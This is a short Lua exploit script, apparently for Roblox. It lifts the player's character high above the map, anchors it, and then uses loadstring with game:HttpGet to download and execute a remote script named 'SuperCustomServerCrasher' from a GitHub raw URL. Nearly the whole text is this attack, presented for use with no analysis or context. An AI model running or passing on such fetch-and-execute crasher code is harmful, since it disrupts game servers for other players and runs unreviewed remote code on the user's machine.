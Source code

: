game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame.X,game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame.Y+10000,game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame.Z)
wait()
game.Players.LocalPlayer.Character.HumanoidRootPart.Anchored = true
loadstring(game:HttpGet('https://raw.githubusercontent.com/lerkermer/lua-projects/master/SuperCustomServerCrasher%27))()
